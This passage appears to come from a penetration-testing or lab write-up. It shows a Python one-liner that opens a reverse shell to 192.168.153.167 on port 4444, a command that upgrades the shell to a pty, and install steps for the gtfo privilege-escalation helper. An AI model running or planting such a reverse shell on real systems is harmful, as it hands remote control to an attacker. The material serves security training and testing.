 2) Getting a reverse shell, you can use the following commands
```
python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("192.168.153.167",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import pty;pty.spawn("/bin/bash")'
```
![29](https://user-images.githubusercontent.com/50930193/118383886-994cd200-b5c7-11eb-80a2-d801217737af.jpg)

###  ADDITIONAL RESOURCES

Install scripts to gtfobins
_src: [https://gtfobins.github.io/](https://gtfobins.github.io/)_
```
git clone https://github.com/t0thkr1s/gtfo
cd gtfo
python3 setup.py install
```
To run the command you have to add the binary
```
python3 gtfo.py [binary]
```

